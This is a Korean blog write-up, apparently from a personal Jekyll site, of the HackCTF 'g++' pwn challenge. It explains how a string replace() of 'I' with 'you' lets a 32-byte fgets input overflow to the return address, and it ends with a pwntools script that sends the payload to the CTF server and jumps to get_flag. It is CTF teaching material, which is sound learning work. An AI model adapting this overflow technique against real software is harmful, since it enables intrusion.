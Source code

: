 ```yaml
---
layout: post
title:  "HackCTF g++ write-up"
date:   2020-01-08 19:45:55
image:  hackctfgpwn.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled.png)

NX 비트가 걸려있는 것을 확인 할 수 있다  <br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%201.png)

프로그램을 실행시키면 다음과 같은 문구가 뜨고 입력할 수 있는 공간이 뜬다

그리고 So, + 입력한 문자열이 나온다. 

코드를 한번 봐보자  <br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%202.png)

메인 함수는 별게 없다. Vuln함수를 봐보자  <br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%203.png)  
vuln 함수는 다음과 같다. c++ 코드로 되어 있는것 같은데 굉장히 복잡해 보인다.

우선 s변수에 fgets로 값을 입력받는다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%204.png)

그리고 get_flag 함수가 있는데 이거를 실행시켜야 플래그를 획득할 수 있을 것같다

흐름을 보쟈면, fgets 함수와  strcpy 함수를 이용하여 bof를 일으키고, get_flag 함수를 실행시키면 될것같다

<br><br>

### 2. 접근방법

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%205.png)

- 코드를 보면 처음에 입력한 값이 s에 들어가고 그걸 input에 복사한다
- 그다음 v5에 "you", v7에 "I"를 넣고
- replace 함수를 이용하여 v4에 input, v7 변수를 인자로 하여 "I"를 "you"로 변경시킨다

<br>
그렇다면, 처음에 fgets는 32바이트 크기만 입력을 받으므로, ret 주소까지의 거리인 ebp-3Ch , 즉 64바이트 크기만큼 입력을 못한다

하지만 replace 함수를 통하여 I 가 you 로 변경되기 때문에 이를 이용하면 될 것이다

정리하면

- ret까지 필요한 크기 : 64byte
- 페이로드 : I * 21 == you * 21 = 63  여기에 + 1byte(아무값)

이렇게 입력하면 될 것이다

<br><br>
### 3. 풀이

최종 익스 코드는 다음과 같다
```python
from pwn import *

p = remote("ctf.j0n9hyun.xyz",3011)

#p.recvuntil("Tell me something about yourself:")
#p.recv(34)
payload = "A"
payload += "I"*21
payload += p32(0x08048F0D)

p.sendline(payload)

p.interactive()
```
recvuntil() 사용하면 중간에 멈추고 진행이 안된다. 이는 서버 오류인듯 싶다


<br><br><br>
### 4. 몰랐던 개념

c++ 아이다 코드에 익숙해져야겠다